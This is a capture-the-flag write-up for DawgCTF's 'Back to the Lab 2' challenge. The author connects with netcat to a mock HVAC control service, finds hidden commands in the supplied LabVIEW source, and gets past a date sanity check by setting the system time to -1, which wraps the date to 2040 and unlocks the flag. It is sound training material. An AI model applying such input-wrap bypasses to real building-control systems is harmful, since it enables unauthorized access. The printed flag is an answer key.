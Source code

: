 # Back to the Lab 2
```
We installed this new HVAC system in the lab using NI instrumentation. Ooh, it's internet-connected. Can you get the flag off of it? It requires "company technician access" but we managed to convince the company to give us some old source code, maybe you can find a workaround?

nc umbcsad.crabdance.com 8000

back\_to\_the\_lab\_2.vi: [https://drive.google.com/file/d/1Bu7xpMiGCEPONd7Hdl6BQL6JXqrFWE6i/view?usp=sharing](https://drive.google.com/file/d/1Bu7xpMiGCEPONd7Hdl6BQL6JXqrFWE6i/view?usp=sharing)

Author: nb
```

```bash
┌──(kali㉿kali)-[~]
└─$ nc umbcsad.crabdance.com 8000
Welcome. Type ? for help.
DAWG> ?
You have logged in to the Cyberdawgs Lab Air Conditioning System.
Commands:
- help: Show help
- temperature: Get the temperature in the lab
- quit: Exit the system
Other commands have been removed from the help menu due to security concerns. Please contact the HVAC department.
```

Functions were found from the provided `back_to_the_lab2.vi`, such as `get_flag`,  `set_system_time`, and `get_system_time`. The application was designed to not function past the year 2030. 

Testing `set_system_time` found that the there was as sanity check for increasing the date.
```bash
DAWG> set_system_time 999999999999999999999999999
Error!
Sanity checked incoming time against system clock... Time change not permitted! You can't adjust the system time further out than one year!
(Reload the Mr. Fusion module before retrying.)
```

Setting the system time to `-1` causes the year to be set to 2040.
```bash
DAWG> set_system_time -1
Done. New system time is: "01:28 AM Mon, Feb 06, 2040"
```

Can then run `get_flag` to retrieve flag
```bash
 get_flag
DawgCTF{t1m3_b3ck0n1ng_m3}
```
